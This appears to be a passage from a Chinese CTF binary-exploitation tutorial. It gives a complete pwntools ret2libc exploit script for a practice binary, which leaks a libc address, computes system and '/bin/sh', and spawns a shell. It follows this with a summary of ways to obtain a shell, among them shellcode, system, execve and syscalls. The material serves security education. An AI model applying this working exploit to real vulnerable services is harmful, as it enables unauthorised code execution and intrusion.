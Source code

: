 ```python
#!/usr/bin/env python
from pwn import *
from LibcSearcher import LibcSearcher
sh = process('./ret2libc3')

ret2libc3 = ELF('./ret2libc3')

puts_plt = ret2libc3.plt['puts']
libc_start_main_got = ret2libc3.got['__libc_start_main']
main = ret2libc3.symbols['main']

print "leak libc_start_main_got addr and return to main again"
payload = flat(['A' * 112, puts_plt, main, libc_start_main_got])
sh.sendlineafter('Can you find it !?', payload)

print "get the related addr"
libc_start_main_addr = u32(sh.recv()[0:4])
libc = LibcSearcher('__libc_start_main', libc_start_main_addr)
libcbase = libc_start_main_addr - libc.dump('__libc_start_main')
system_addr = libcbase + libc.dump('system')
binsh_addr = libcbase + libc.dump('str_bin_sh')

print "get shell"
payload = flat(['A' * 104, system_addr, 0xdeadbeef, binsh_addr])
sh.sendline(payload)

sh.interactive()

```

## 题目

- train.cs.nctu.edu.tw ret2libc

# shell获取小结

这里总结几种常见的获取shell的方式：

- 执行shellcode，这一方面也会有不同的情况
  - 可以直接返回shell
  - 可以将shell返回到某一个端口
  - shellcode中字符有时候需要满足不同的需求
  - **注意，我们需要将shellcode写在可以执行的内存区域中。**
- 执行system("/bin/sh"),system('sh')等等
  - 关于system的地址，参见下面章节的**地址寻找**。
  - 关于"/bin/sh"， “sh”
    - 首先寻找binary里面有没有对应的字符串,**比如说有flush函数，那就一定有sh了**
    - 考虑个人读取对应字符串
    - libc中其实是有/bin/sh的
  - 优点
    - 只需要一个参数。
  - 缺点
    - **有可能因为破坏环境变量而无法执行。**
- 执行execve("/bin/sh",NULL,NULL)
  - 前几条同system
  - 优点
    - 几乎不受环境变量的影响。
  - 缺点
    - **需要3个参数。**
- 系统调用
  - 系统调用号11

